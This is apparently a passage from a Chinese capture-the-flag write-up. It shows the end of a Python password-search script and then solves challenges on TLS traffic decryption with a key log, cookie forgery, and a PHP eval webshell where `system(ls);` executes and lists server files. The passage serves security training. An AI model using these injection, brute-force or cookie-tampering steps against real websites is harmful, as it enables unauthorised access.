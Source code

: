 ```python
                                            
                                            # 验证密码
                                            if validate_password(original):
                                                return original
                                        except:
                                            continue
                                except:
                                    continue
            except:
                continue
    
    return None

result = find_password()
if result:
    print(f"找到密码: {result}")
else:
    print("未找到密码")
```

然后发过去，顺便改ua头

## HTTPS中间人攻击 

有两个文件，一个流量包一个`.log`文件  

发现TLS和TCP的内容都被加密了，把log文件配置到小鲨鱼里面，就会多出来两个流，得到flag

## Cookie伪造 

先上去要登陆，密码是`guest`，如何cookie里面改一下刷新就行了

# 第二章

## 一句话木马变形

可以执行命令，`phpinfo();`没有flag  

`system(ls);`得到回显

```
<br />
<b>Warning</b>:  Use of undefined constant ls - assumed 'ls' (this will throw an Error in a future version of PHP) in <b>/var/www/html/index.php(107) : eval()'d code</b> on line <b>1</b><br />
flag.php
index.php 
```

尝试直接读取不行

```
Error: Invalid characters detected! Only letters, numbers, underscores ,parentheses and semicolons are allowed.
```

